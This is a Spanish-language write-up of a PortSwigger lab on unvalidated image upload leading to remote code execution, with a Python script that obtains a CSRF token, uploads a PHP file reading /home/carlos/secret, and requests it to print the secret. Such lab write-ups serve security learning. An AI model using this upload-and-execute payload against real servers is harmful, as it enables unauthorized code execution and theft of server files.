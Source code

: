 Este lab de PortSwigger presenta una vulnerabilidad en un sistema que permite la subida de imágenes sin validar correctamente los archivos, lo que lleva a una ejecución remota de código (RCE). El objetivo es subir un archivo PHP malicioso y utilizarlo para obtener el contenido del archivo secreto /home/carlos/secret.
Herramientas utilizadas:
En lugar de usar Burp Suite, decidí utilizar Python y la librería requests para realizar el ataque, ya que me permite entender mejor el flujo de las solicitudes HTTP y la automatización de tareas de ciberseguridad.
Pasos seguidos:
Autenticación: Utilicé un token CSRF para iniciar sesión en el sistema. Esto es fundamental ya que muchos sitios web modernos implementan esta protección para prevenir ataques CSRF.
Subida del archivo PHP: Se subió un archivo PHP malicioso mediante una solicitud POST, manipulando el campo de carga para incluir un script que leería el archivo secreto en el sistema vulnerable.
Ejecución remota de código: Después de subir el archivo, realicé una solicitud GET para ejecutar el archivo PHP y extraer el contenido secreto.
Obtención del secreto: Finalmente, el contenido del archivo secreto fue extraído utilizando el script PHP y se resolvió el lab con éxito.
Problemas encontrados:
Token CSRF: La primera barrera fue manejar correctamente los tokens CSRF que se requerían para realizar las solicitudes.
Parámetros adicionales: El servidor también exigía parámetros como user e id, que inicialmente pasaron desapercibidos.

import requests
from bs4 import BeautifulSoup

# Definir la URL base y crear una sesión
LAB_URL = "https://example.com"
SESSION = requests.Session()

# Obtener token CSRF
def get_csrf_token(url):
    page = SESSION.get(url)
    soup = BeautifulSoup(page.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]
    return csrf_token

# Subir archivo PHP
def upload_file():
    csrf_token = get_csrf_token(f"{LAB_URL}/my-account?id=wiener")
    files = {"avatar": ("exploit.php", "<?php echo file_get_contents('/home/carlos/secret'); ?>")}
    data = {"csrf": csrf_token, "user": "wiener", "id": "wiener"}
    response = SESSION.post(f"{LAB_URL}/my-account/avatar?id=wiener", files=files, data=data)
    return response

# Ejecutar el archivo PHP y obtener el secreto
def get_secret():
    secret_response = SESSION.get(f"{LAB_URL}/files/avatars/exploit.php")
    return secret_response.text.strip()


Reflexión:
Utilizar Python para este tipo de pruebas de penetración me dio un control mucho mayor sobre cada paso del proceso, desde la autenticación hasta la obtención del secreto.
Me resultó interesante experimentar con el manejo de CSRF y cómo esto afecta a la ejecución de acciones en aplicaciones web.
Conclusión:
El uso de Python en lugar de Burp Suite me permitió una mayor flexibilidad y comprensión técnica del proceso. Este tipo de retos son fundamentales para avanzar en el camino de la ciberseguridad.

# Resolver el lab
response = upload_file()
if "has been uploaded" in response.text:
    secret = get_secret()
    print(f"Secreto obtenido: {secret}")
